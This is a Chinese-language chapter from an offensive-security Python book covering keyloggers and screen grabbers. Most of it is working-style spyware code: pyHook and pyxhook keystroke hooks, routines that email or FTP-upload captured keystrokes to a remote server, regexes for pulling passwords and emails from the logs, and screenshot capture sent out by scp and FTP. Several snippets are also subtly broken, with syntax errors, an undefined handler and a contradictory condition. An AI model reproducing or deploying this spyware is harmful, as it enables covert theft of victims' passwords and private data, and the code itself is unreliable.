

# 第八章。键盘记录和屏幕截取

使用 Python，我们可以以编程方式执行诸如捕获所有按键、捕获屏幕、记录正在运行的程序、关闭它们、监视剪贴板内容等任务。黑客可能使用这些技术恶意获取受害者的私人信息，而雇主可能使用它们来监视员工的活动。

本章涵盖的主题如下：

+   使用 Python 进行键盘记录

+   屏幕截取

# 键盘记录器

**键盘记录器**是一种实时记录按键的软件或硬件设备。它们用于解决计算机和网络的技术问题。它们也可以用于在没有直接知识的情况下监视人们的网络和计算机使用情况。因此，这也可以在公共计算机上被滥用来窃取密码或信用卡信息。

## 硬件键盘记录器

基于硬件的键盘记录器可以在没有安装任何软件的情况下监视受害者的活动。它们可以很容易地被检测到，因为它是一个物理设备，可能连接在计算机键盘和 USB/PS2 端口之间的某个地方。还有更先进的硬件键盘记录器，它们在外部不可见，也不依赖于任何软件。因此，它们无法被任何软件检测到。但是，硬件键盘记录器需要对受害者进行物理访问。

对于无线键盘，可以拦截从键盘发送到其接收器的信号，使用无线嗅探器。

## 软件键盘记录器

使用软件键盘记录器，我们可以从远程系统提供对本地记录的按键的访问。这可以通过将记录的按键上传到数据库或 FTP 服务器来实现。我们还可以定期将其作为电子邮件附件发送。

# 使用 pyhook 的键盘记录器

要创建一个简单的键盘记录器脚本来记录计算机上的按键活动并将其存储在文本文件中，我们可以使用`pyhook`模块。这将为 Windows 系统提供全局鼠标和键盘事件的回调。

导入所需的模块。在这里，我们从 ActivePython Package 导入`pyhook`和 pythoncom 模块。`pythoncom`模块在此脚本中用于为当前线程传递所有消息：

```py
import pyHook, pythoncom, sys, logging 

```

定义保存日志数据的文件。 （Windows 文件名使用反斜杠作为分隔符。但是，在 Python 中，反斜杠是一个转义字符，所以我们必须在路径中放置双斜杠`\\`。否则，我们可以使用原始字符串来定义文件名。）：

```py
file_log='C:\\log.txt' 

```

现在我们可以定义处理每个键盘事件的函数。在这里，我们可以利用日志模块来记录每个字符：

```py
def OnKeyboardEvent(event): 
    logging.basicConfig(filename*file_log, level=logging.DEBUG, format='%(message)s') 
    chr(event.Ascii) 
    logging.log(10,chr(event.Ascii)) 
    return True 

```

在这里，我们实例化`pyhook`管理器：

```py
hooks_manager = pyHook.HookManager() 

```

在每次按键时调用键盘事件函数：

```py
hooks_manager.KeyDown = OnKeyboardEvent 
hooks_manager.HookKeyboard() 
pythoncom.PumpMessages() 

```

这将在 Windows 系统中工作。要在 Linux 中使用，我们必顈依赖另一个模块：`pyxhook`。您可以从[`github.com/JeffHoogland/pyxhook`](https://github.com/JeffHoogland/pyxhook)获取此模块。

使用`pyxhook`，您可以重写前面的脚本以在 Linux 中使用：

```py
import pyxhook 
file_log=/home/rejah/Desktop/file.log' 
def OnKeyboardEvent(event): 
   k = event.Key 

    if k == "space": k = " " 

   with open(file_log, 'a+') as keylogging: 
      keylogging.write('%s\n' % k)   

#instantiate HookManager class 
hooks_manager = pyxhook.HookManager() 

#listen to all keystrokes 
hooks_manager.KeyDown=OnKeyPress 

#hook the keyboard 
hooks_manager.HookKeyboard() 

#start the session 
hooks_manager.start() 

```

我们可以改进脚本以将按键记录到远程服务器或处理特定的按键。

要将记录的按键发送到电子邮件，我们可以使用`smtplib`模块。我们需要导入所需的模块：

```py
import time 
import datetime 
import smtplib 
from email.mime.text import MIMEText

```

然后我们可以定义通过连接到我们的 SMTP 服务器发送电子邮件的方法：

```py
def sendEmail(data,to): 
    try: 
        # Provide from email address 
        from = 'you@yourdomain.com' 
        # Your SMTP username 
        username = 'keylogger' 
        # Your Email password 
        password = 'asd123' 
        # Use MIMEText to create an email 
        mail = MIMEText(data, 'html') 
        mail['Subject']  = "Keylogger Data --" +str(datetime.datetime.now()) 
        mail['From']=from 
        mail['To'] = to 

        # Send the message via your SMTP server 
        server = smtplib.SMTP('smtp.yourdomain.com:587') 
        # Enable TLS if required 
        server.starttls() 
        server.login(username,password) 
        server.sendmail(from, [to], mail.as_string()) 
        server.quit() 
    except: 
        pass

```

现在我们可以将数据和地址传递给这个方法。这将把按键发送到指定的地址。现在我们可以重写`OnKeyboardEvent`方法来发送按键：

```py
def OnKeyboardEvent(event): 
    # Write character only if its not a null or backspace  
    if event.Ascii !=0 or 8: 
        # Open log file and read the current keystrokes in log file 
        f=open('c:\log.txt','r+') 
        buffer=f.read() 
        f.close()  

        if len(buffer)%100==0 and len(buffer)%100!=0: 
            #send last 1000 characters to the email 
            send_email(buffer[-1000:].replace("\n","<br>"),email) 

        # Open the log.txt file to update new keystrokes 
        f=open('c:\log.txt','w') 
        keylogs=chr(event.Ascii) 

        # if the key pressed is ENTER, update with /n  
        if event.Ascii==13: 
            keylogs='\n' 

        #if the key pressed is space, update with space  
        if event.Ascii==32: 
            keylogs='  ' 

        # Add new keystrokes to buffer 
        buffer+=keylogs 

        # Write the buffer to log file 
        f.write(buffer) 
        # close the log file 
        f.close() 

```

现在，当日志文件中有 1000 个字符时，这将把按键发送到指定的电子邮件 ID。同样，我们可以添加一个方法将文件上传到 FTP 服务器。在这里，我们必须导入`ftplib`模块和`os`模块：

```py
import ftplib 
import os 

```

然后，定义将文件上传到 FTP 服务器的方法

```py
def uploadToFTP(data,to): 
    # Write data to a file 
    fileName="log-"+str(datetime.datetime.now()+".txt" 
    logFile=open(fileName,"a") 
    logFile.write(data) 
    logFile.close() 

    try: 
        # Provide FTP server address 
        server = 'yourdomain.com' 
        # Your FTP username 
        username = 'keylogger' 
        # Your FTP password 
        password = 'asd123' 
        # SSL state, set 1 if SSL enabled in server 
        SSL = 0 
        # FTP Directory to upload the file 
        directory = "/"  
        # Create normal FTP connection If SSL disabled 
        if SSL==0: 
            connection=ftplib.FTP(server,username,password) 
        # Create SSL enabled FTP connection 
        elif SSL==1: 
            connection=ftplib.FTP_TLS(server,username,password) 

        # Change directory in FTP connection 
        connection.cwd(directory) 
        # Open the log file 

        logFile=open(fileName,'rb') 
        # Upload the file to FTP server 
        connection.storbinary('STOR' +' '+fileName,logFile) 
        # Close the FTP connection 
        connection.quit() 
        # Close the log file 
        logFile.close() 
        # Delete the temporary log file 
        os.remove(fileName) 
    except: 
        pass
```

现在我们可以在`OnKeyboardEvent`函数中使用此方法将按键上传到 FTP 服务器。

键盘记录器的输出将是一个巨大的文件，其中包含隐藏的数据的数兆字节文本。我们可以使用正则表达式扫描此文件以获取所需的数据。例如，两个正则表达式可以匹配一堆文本中的用户名和密码。

要识别电子邮件 ID，可以使用以下正则表达式：

```py
 ^[\w!#$%&'*+\-/=?\^_`{|}~]+(\.[\w!#$%&'*+\-/=?\^_`{|}~]+)*@((([\-\w]+\.)+[a-zA-Z]{2,4})|(([0-9]{1,3}\.){3}[0-9]{1,3}))$ 

```

要识别超过六个字母的类似密码的模式：

```py
(?=^.{6,}$)(?=.*\d)(?=.*[a-zA-Z])

```

使用正则表达式，我们可以搜索具有模式并且可以构建为正则表达式表达式的任何数据。此类数据的一些示例包括社会安全号码、信用卡号码、银行账户、电话号码、姓名、密码等。

# 屏幕截取

屏幕抓取程序捕获受害者的桌面并将图像发送到远程服务器。有许多 Python 模块可用于以编程方式抓取屏幕的光栅图像。我们可以利用**Python 图像库**（**PIL**）用于 Windows 和 OSX。 PIL 包含`ImageGrab`模块，可用于抓取屏幕截图。

导入模块，这里我们还导入时间模块以使执行休眠三秒，允许用户在抓取之前切换屏幕显示：

```py
from PIL import ImageGrab 
import time

```

休眠三秒并拍摄屏幕截图：

```py
time.sleep(3) 
ImageGrab.grab().save("screen_capture.jpg", "JPEG") 

```

我们还可以通过提供以下区域来在屏幕上拍摄特定区域的屏幕截图：

```py
ImageGrab.grab(bbox=(10,10,510,510)).save("screen_capture.jpg", "JPEG") where, bbox=(X1,Y1,X2,Y2)

```

以下截图说明了示例：



要在 Linux 系统上抓取屏幕截图，我们必须使用具有跨平台兼容性的`wxPython`库。我们可以从[`wxpython.org/download.php`](http://wxpython.org/download.php)下载 wxPython

导入 wx 模块：

```py
import wx 

```

首先，创建应用程序实例：

```py
wx.App()

```

`wx.ScreenDC`方法提供对整个桌面的访问，其中还包括任何扩展的桌面监视器屏幕：

```py
screen = wx.ScreenDC() 
size = screen.GetSize() 

```

创建具有屏幕大小的新空位图作为目的地：

```py
bmp = wx.EmptyBitmap(size[0], size[1]) 
mem = wx.MemoryDC(bmp) 

```

将屏幕位图复制到返回的捕获位图中：

```py
mem.Blit(0, 0, size[0], size[1], screen, 0, 0) 
del mem 

```

将位图保存为图像：

```py
bmp.SaveFile('screenshot.png', wx.BITMAP_TYPE_PNG) 

```

此外，我们可以将此屏幕截图发送到远程位置，只需对脚本进行最小更改。例如，我们可以使用`scp`协议将其发送到另一台服务器：

```py
import os 
os.system("scp screenshot.png user@remote-server.com:/home/user/")

```

或者，我们可以使用`ftplib`使用 FTP 协议上传文件：

导入模块`ftplib`：

```py
import ftplib 

```

使用远程服务器凭据开始新会话：

```py
session = ftplib.FTP('remote-server.com','user','password') 

```

使用以下代码打开文件：

```py
file = open('screenshot.png','rb')

```

发送文件：

```py
session.storbinary('STOR screenshot.png', file)

```

关闭文件和 FTP 会话：

```py
file.close()                                     
session.quit() 

```

# 总结

我们已经讨论了您可以使用 Python 进行按键记录和屏幕截图的基本模块。现在，您可以创建这些脚本的定制版本来记录按键并抓取屏幕截图。我们将在下一章中讨论一些攻击自动化技术。
